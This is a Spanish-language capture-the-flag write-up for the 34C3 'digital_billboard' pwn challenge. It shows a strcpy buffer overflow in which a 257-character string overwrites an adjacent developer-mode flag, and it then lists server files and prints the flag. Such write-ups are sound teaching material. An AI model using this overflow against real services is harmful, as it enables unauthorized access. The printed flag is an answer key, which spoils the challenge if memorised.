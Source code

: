 
**Título:** digital_billboard | **Categoría:** Pwn | **Nivel:** fácil

**Autor:** blondbyte

> **Enunciado:**
>
> We bought a new Digital Billboard for CTF advertisement:
>
> nc 35.198.185.193 1337
>
> [`billboard.tar.gz`](billboard.tar.gz)

---

#### Resolución
Accediendo al servicio que indica el enunciado me encuentro con:
```
root@blondbyte# nc 35.198.185.193 1337
*
* Digital Billboard
*
We bought a new digital billboard for CTF advertisement.

Type "help" for help :)
>
```
A ver la ayuda que dice:
```
> help
set_text <text>			(Set the text displayed on the board)
devmode 			(Developer mode)
help 				(Show this information)
modinfo 			(Show information about the loaded module)
>
```
Por lo visto hay varias opciones pero tampoco tengo claro por donde tirar. Vaya, hay un modo developer y algo más, a ver que dicen:
```
> devmode
Developer mode disabled!
> modinfo
************************************
Information about the loaded module:
Name: Digital Billboard
Base address: 0x7fb2fc896000
************************************
> set_text test
Successfully set text to: test
>
```
Hay una entrada de texto y lo primero que me viene a la cabeza son los ejercicios introductorios de overflow en binarios escritos en C.

Estaría bien activar ese modo developer. El chall se acompaña con el código fuente del servidor. Habrá algún checking para ser developer..y tanto que lo hay:
```c

struct billboard {
    char text[256];
    char devmode;
};

void set_text(int argc, char* argv[]) {
    strcpy(bb.text, argv[1]);
    printf("Successfully set text to: %s\n", bb.text);
    return;
}
```
La struct **billboard** reserva espacio para las variables de forma contigua. El método **strcpy(a,b)** almacena el valor de **b** en la dirección **a**. Vamos a preparar el payload, formado por una cadena de 256+1 chars para que haga overflow en la variable **text**:
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Inyectamos el payload:
```
> set_text aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Successfully set text to: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
> devmode
Developer access to billboard granted.
```
Parece que "estamos dentro". Muestro las ficheros del servidor e imprimo el que se llama flag.txt:
```
ls
billboard.so
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
server
srv
sys
tmp
usr
var
cat flag.txt
34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN
```

La flag es: `34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN`
